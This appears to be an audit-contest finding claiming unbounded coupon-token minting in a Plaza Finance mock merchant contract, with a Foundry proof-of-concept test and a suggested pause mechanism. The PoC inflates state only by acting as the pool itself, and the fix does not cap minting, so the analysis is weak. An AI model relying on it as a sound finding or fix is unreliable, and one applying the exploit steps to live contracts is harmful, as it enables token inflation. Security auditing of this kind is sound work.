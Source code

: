 Upbeat Golden Woodpecker

High

# Unbounded Token Minting: Lack of minting limits enables excessive token creation

### Summary

Unchecked coupon token minting in `executeOrders()` will cause inflation as there are no upper bounds on mint amounts.

### Root Cause

In src/MockMerchant.sol#31 (https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/MockMerchant.sol#L31):
```solidity
couponToken.mint(_pool, couponAmount);
```
No validation of couponAmount or maximum mint limits.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Manipulate `bondToken`, `totalSupply` or `sharesPerToken`
2. Trigger `executeOrders()` with inflated `couponAmount`
3. Mint excessive tokens

### Impact

Unchecked coupon token minting in `executeOrders()` will cause inflation as there are no upper bounds on mint amounts.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/MockMerchant.sol";
import "../src/Pool.sol";
import "../test/mocks/Token.sol";

contract MockMerchantTest is Test {
    MockMerchant public merchant;
    Pool public pool;
    Token public couponToken;
    Token public reserveToken;
    Token public bondToken;
    
    address public attacker = address(0x1);
    address public user = address(0x2);

    function setUp() public {
        // Setup mock price feed
        merchant = new MockMerchant(address(0x123)); // mock eth price feed address
        
        // Deploy tokens
        couponToken = new Token("Coupon", "CPN", 18);
        reserveToken = new Token("Reserve", "RSV", 18);
        bondToken = new Token("Bond", "BND", 18);
        
        // Setup pool
        pool = new Pool(
            address(couponToken),
            address(reserveToken),
            address(bondToken)
        );

        // Initial setup
        vm.startPrank(address(pool));
        couponToken.grantRole(couponToken.MINTER_ROLE(), address(merchant));
        reserveToken.grantRole(reserveToken.BURNER_ROLE(), address(merchant));
        vm.stopPrank();
    }

 function testUnboundedMinting() public {
        // Setup initial conditions
        uint256 distributionPeriod = 1 days;
        uint256 initialTimestamp = block.timestamp;
        uint256 largeAmount = type(uint256).max / 2; // Very large amount
        
        vm.startPrank(address(pool));
        pool.setDistributionPeriod(distributionPeriod);
        pool.setLastDistribution(initialTimestamp);
        bondToken.mint(address(pool), largeAmount); // Mint large amount of bond tokens
        pool.setSharesPerToken(2); // Set shares multiplier
        vm.stopPrank();

        // Move past distribution period
        vm.warp(initialTimestamp + distributionPeriod + 1);
        
        // Execute with no bounds on minting
        vm.prank(attacker);
        merchant.executeOrders(address(pool));
        
        // Verify excessive minting
        uint256 mintedAmount = couponToken.balanceOf(address(pool));
        assertGt(mintedAmount, largeAmount, "Excessive minting successful");
    }

    // Helper function to simulate oracle price
    function mockOraclePrice(uint256 price) internal {
        // Implementation would depend on your oracle setup
        // This is just a placeholder
    }
}
```

### Mitigation

Add Emergency Pause Mechanism

```solidity
bool public paused;
modifier whenNotPaused() {
    require(!paused, "Contract is paused");
    _;
}

function executeOrders(address _pool) external whenNotPaused {
    ...
}
```

Additional Notes:

1. The contract lacks access control for critical functions
2. No events are emitted for important state changes
3. Oracle price validation could be strengthened
4. Missing sanity checks on pool address input
5. Potential overflow in coupon amount calculation
